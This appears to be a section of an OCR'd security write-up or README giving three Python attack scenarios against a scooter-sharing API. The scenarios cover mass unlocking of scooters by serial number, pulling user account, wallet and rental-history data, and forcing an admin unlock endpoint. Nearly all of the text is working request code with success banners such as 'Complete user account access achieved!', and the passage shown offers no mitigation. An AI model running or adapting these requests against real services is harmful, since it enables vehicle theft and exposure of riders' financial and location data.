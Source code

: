 ### Scenario 1: Mass Scooter Unlocking
```python
# Unlock multiple scooters simultaneously
scooter_serials = ["SN001", "SN002", "SN003", "SN004", "SN005"]

for serial in scooter_serials:
    payload = {
        "serial_number": serial,
        "lat": 40.7128,
        "lng": -74.0060
    }
    
    response = requests.post(
        f"{API_BASE_URL}/api/application/vehicles/unlock",
        json=payload,
        headers=headers
    )
    
    if response.status_code == 200:
        print(f"✅ Unlocked scooter {serial}")
```

### Scenario 2: User Account Takeover
```python
# Access user account data
response = requests.get(f"{API_BASE_URL}/api/application/users", headers=headers)
user_data = response.json()

# Access wallet information
response = requests.get(f"{API_BASE_URL}/api/application/users/wallet", headers=headers)
wallet_data = response.json()

# Access rental history
response = requests.get(f"{API_BASE_URL}/api/application/users/rents", headers=headers)
rental_data = response.json()

print("🚨 Complete user account access achieved!")
```

### Scenario 3: Admin Privilege Escalation
```python
# Attempt admin operations
admin_payload = {
    "serialNumber": "SN12345",
    "latitude": 40.7128,
    "longitude": -74.0060,
    "force": True
}

response = requests.post(
    f"{API_BASE_URL}/api/application/vehicles/unlock/admin",
    json=admin_payload,
    headers=headers
)

if response.status_code == 200:
    print("🚨 CRITICAL: Admin privileges achieved!")
```
